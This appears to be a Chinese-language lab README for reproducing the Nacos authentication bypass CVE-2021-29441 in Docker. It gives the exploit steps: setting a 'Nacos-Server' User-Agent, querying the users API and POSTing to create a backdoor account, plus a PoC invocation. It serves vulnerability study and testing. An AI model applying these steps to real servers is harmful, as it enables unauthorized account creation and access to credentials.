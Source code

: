 # Nacos 认证绕过漏洞（CVE-2021-29441）

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 漏洞环境

运行漏洞环境：

```shell
docker compose up -d
```

环境运行后，会开放3306、8848、9848、9555端口，在本次漏洞利用中，我们只需要用到8848端口，即web访问端口。**执行漏洞验证过程时，请先访问8848端口，确认开放，某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务**

```shell
docker compose restart nacos

```

## 漏洞利用脚本

```shell

python poc.py http://target:8848

```

![poc](poc.png)

## 漏洞复现

漏洞利用过程如下：

1. 修改User-Agent的值为Nacos-Server到请求包中
2. 访问http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9查看状态码是否为200，且内容中是否包含`pageItems`
3. 使用POST方式访问http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub添加一个新用户
4. 访问http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9获取已有的用户列表
5. 访问http://target:8848/nacos/，使用添加的新用户(vulhub/vulhub)进行登录

### 检测漏洞是否存在

![1](1.png)
添加Header头后访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`可以看到返回值为200,且内容中是否包含`pageItems`

### 添加新用户

![2](2.png)
添加Header头后使用**POST**方式请求`http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub`添加一个新用户,账号密码都为vulhub

### 使用新建的账号进行登录

![3](3.png)
